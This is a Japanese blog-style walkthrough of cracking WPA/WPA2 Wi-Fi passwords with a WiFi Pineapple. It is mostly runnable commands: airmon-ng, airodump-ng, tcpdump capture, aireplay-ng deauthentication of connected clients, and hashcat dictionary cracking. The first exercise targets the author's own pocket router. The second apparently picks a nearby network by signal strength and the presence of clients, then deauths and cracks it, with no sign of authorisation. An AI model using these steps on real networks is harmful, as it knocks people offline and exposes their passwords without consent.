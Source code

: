 ```yaml
---
title: "WPA/WPA2 Crack with WiFi Pineapple"
date: "2025-02-07 00:00:00 +0900"
categories: [Hacking], WiFi]
tags: [Hak5, WiFi-Pineapple, WPA, WPA2, WiFi Hacking]
---
```


# Make Most of WiFi Pineapple

- ツールを活用しながら学んでいく。

## 準備

- ポケットWiFi(中古)を工場出荷時に戻す
  - ![alt text](../assets/images/Screenshot_2025-02-06_143218.png)
- SSID / PWを再設定

## 機器

- ターゲット: PoketWiFi(SSID:1337_WiFI)
- 接続デバイス: Android スマホ
- Laptop: WifiPineappleとの接続とWebUI操作
- WifiPineapple

## WPA/WPA2 Crack

### ステップ
1. Recon（ネットワークスキャン） → WiFiの情報収集
2. Deauthentication Attack（Deauth攻撃） → クライアントを強制切断してハンドシェイクを取得
3. Handshake Capture（ハンドシェイクキャプチャ） → WPA/WPA2の認証データを取得
4. Password Cracking（パスワードクラック） → 辞書攻撃・総当たり攻撃でパスワード解析

### 実践_01

1. **Recon: ターゲット確認**  
   ![alt text](../assets/images/Screenshot_2025-02-06_151547.png)

2. **Deauth: クライアントの強制切断を確認**  
   ![alt text](../assets/images/Screenshot_2025-02-06_154447.png)  
   - クライアント（このWiFiに接続しているAndroidスマホ）の情報は見えない  

3. **Handshake Capture（ハンドシェイクキャプチャ）: tcpdumpモジュールを使用**  
   
   #### 3.1 インターフェースをモニターモードに変更  
   - WiFi PineappleにSSHで接続:  
     ```sh
     ssh root@172.16.42.1
     ```
   - モニターモード（Monitor Mode）を有効化:  
     ```sh
     airmon-ng start wlan1
     ```
     ![alt text](../assets/images/Screenshot_2025-02-06_170338.png)  
     - `wlan1` に対してモニターモードの仮想インターフェース `wlan1mon` が作成されていることが分かる。
   - MMとして利用できるインターフェースを特定:  
     ```sh
     iwconfig
     ```
     ![alt text](../assets/images/Screenshot_2025-02-06_165352.png)  
     - `wlan2` はクライアントモード（Managed Mode）で利用中：WiFi Pineappleが「WiFiルーターに接続する側」として動作する  
     - `wlan0-1` はアクセスポイントモード（AP Mode / Master Mode）で利用中：他のデバイスを接続させるための偽WiFi（Evil Twin Attack など）を作るときに使う  

   #### 3.2 tcpdumpモジュールをインストール  
   - `Modules` >> `install`
   - `Modules` >> `tcpdump` >> `install dependencies`

   #### 3.3 実際にキャプチャ  
   - Recon: ターゲットの情報を取得
     ![alt text](../assets/images/Screenshot_2025-02-06_172042.png)
   - wlan1mon をターゲットAPのチャネルに固定:
     ```sh
     iwconfig wlan1mon channel 11
     ```
   - `tcpdump` を使用してパケットをキャプチャ: -w は保存先でもしusbに保存したい場合: `tcpdump -i wlan1mon -w /sd/handshake.pcap` 
     ```sh
     tcpdump -i wlan1mon -w /root/handshake.pcap
     ```
   - UIでDeauth実行: コマンドで実行する場合: `aireplay-ng --deauth 10 -a <ターゲットAPのMACアドレス> wlan1mon`
   - Cnrl + C でパケットキャプチャを停止。
     ![alt text](../assets/images/Screenshot_2025-02-06_172921.png)
   - 取得したデータをLaptopに転送: `scp root@172.16.42.1:/root/handshake.pcap C:\Users\<YourUsername>\Desktop\`
4. Password Cracking（パスワードクラック） → 辞書攻撃・総当たり攻撃でパスワード解析
   - Wiresharkでデータを開いてキャプチャをフィルタリングして WPA ハンドシェイクパケットを探す: `eapol`でフィルター
     ![alt text](../assets/images/Screenshot_2025-02-06_175138.png)
   - WPA2ハンドシェイクで、パスワードを解析するために必要なデータ。File → Save As → test.cap として保存
   - Hashcatを利用: 3min
   - .pcap ファイル ⇢ .hccapxファイルへ: `hcxpcapngtool -o handshake.hccapx capture.pcap`
   - パスワードクラック: `hashcat -m 22000 -a 0 -w 3 handshake.hccapx /usr/share/wordlists/rockyou.txt`
   - ![alt text](../assets/images/2025-02-07_16-49.png)

### 実践_02
※ wlan2が認識されないバグがあるため、アダプターを何度か抜いたりして認識させる: `iwconfig`

1. **Recon on WiFi Pineapple**  
   ![alt text](../assets/images/Screenshot_2025-02-07_215242.png)

2. **ターゲットの選定:**  
   - WPA2 PSK (CCMP) や WPA Mixed PSK (CCMP) を利用している。
   - 電波強度が -60dBm 前後のものを選択。
   - クライアント（接続デバイス）がいることを確認。

3. **モニターモード有効化とネットワーク監視:**  
   ```sh
   airmon-ng start wlan1
   airodump-ng --bssid XX:XX:XX:XX:XX:XX -c 7 -w /sd/handshake wlan1mon
   ```
   ![alt text](../assets/images/Screenshot_2025-02-07_214904.png)

4. **キャプチャ:**  
   ```sh
   tcpdump -i wlan1mon -w /sd/practice7.pcap
   ```

5. **Deauth攻撃:**  
   ```sh
   aireplay-ng --deauth 1 -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan1mon
   ```
  - YY: Frameが多い方のデバイスを選択。通信が多いので、キャプチャできるチャンスが増える。
  - 何度も間隔を開けて行う。Message 1 of 4 - Message 4 of 4 までのハンドシェイクのキャプチャを取得しないといけないため。
  - 4つ全て取得できるまで何度も。確認はwireshrk。

6. **キャプチャファイルの移動:**  
   ```sh
   scp root@172.16.42.1:/sd/practice.pcap C:\Users\ebisu\Desktop\
   ```

7. **Wiresharkで `eapol` を確認し保存** 
   Message 1 of 4 - Message 4 of 4 全て含まれていたら成功。

8. **Hashcatでパスワードクラック:**: 失敗  
   ```sh
   hcxpcapngtool -o handshake.hccapx practice7.pcap #.pcap ファイル ⇢ .hccapxファイルへ
   hashcat -m 22000 -a 0 -w 3 handshake.hccapx /usr/share/wordlists/rockyou.txt
   ```
   ![alt text](../assets/images/2025-02-07_22-10.png)

9. **別のパスワードリストを使用:**: 成功  
   別のWiFI用のPWリストを取得: [WPA-Dictionary](https://github.com/TKanX/WPA-Dictionary)

   ```sh
   cat /media/.../WPA-password-dictionary/*.txt > /media/.../WPA-password-dictionary/merged_wordlist.txt #フォルダに数多くの.txtファイルがあったので１つにまとめる
   hashcat -m 22000 -a 0 -w 3 practice7.hccapx /media/.../WPA-password-dictionary/merged_wordlist.txt
   ```
   ![alt text](../assets/images/2025-02-08_07-28.png)


